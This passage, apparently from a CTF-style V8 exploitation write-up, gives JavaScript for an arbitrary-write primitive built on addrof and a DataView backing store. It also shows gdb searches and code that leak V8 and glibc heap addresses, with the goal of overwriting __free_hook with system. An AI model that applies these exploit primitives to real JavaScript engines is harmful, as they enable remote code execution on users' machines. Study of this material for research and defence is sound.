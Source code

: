 ```
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```

### Achieve Control-flow Hijacking: Overwrite __free_hook to system

After creating the primitives, we now need to leak the glibc base address, where `__free_hook` and `system` symbol has a fixed offset to. Currently, all the JS runtime objects will be allocated on the page allocated by V8's memory allocator (V8's heap) which is apart from the heap allocated by `ptmalloc`. Therefore, we need to leak the address of other pages (e.g. text segement, heap or glibc) on the V8's heap. 

#### Leak heap space
```
(gdb) search-pattern 0x000055d8 little 0x0000101634300000-0x0000101634340000
[+] Searching '\xd8\x55\x00\x00' in 0x0000101634300000-0x0000101634340000
[+] In (0x101634300000-0x101634340000), permission=rw-
  0x101634300014 - 0x101634300024  →   "\xd8\x55\x00\x00[...]" 
  0x10163430001c - 0x10163430002c  →   "\xd8\x55\x00\x00[...]" 
```

```
// buf_addr = 0x10163430ddd0
// v8_heap_base_addr = buf_addr & 0xffffffff0000n
let buf_addr = addrof(buf);
let v8_heap_base_addr = buf_addr & 0xffffffff0000n
let heap_ptr_addr = v8_heap_base_addr + 0x10n;

let heap_ptr = arb_read(heap_ptr_addr);
let heap_base = heap_ptr
console.log("[+] Leak a Heap pointer: 0x" + heap_ptr.toString(16));

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Leak a Heap pointer: 0x555809da46d0
[+] Heap base address: 0x555809d2c000
```

#### Leak text segment

Similarly, we search the heap space and see whether there is a pointer that points to glibc or text segment.

```
(gdb) search-pattern 0x0000558485 little 0x0000558487367000-0x0000558487415000
[+] Searching '\x85\x84\x55\x00\x00' in 0x0000558487367000-0x0000558487415000
[+] In '[heap]'(0x558487367000-0x558487415000), permission=rw-
  0x55848736966b - 0x55848736967f  →   "\x85\x84\x55\x00\x00[...]" 
(gdb) x/32xw 0x558487369668
0x558487369668:	0x85c259b5	0x00005584	0x0000001d	0x00000000
0x558487369678:	0x87369a80	0x00005584	0x00000000	0x65757274
```
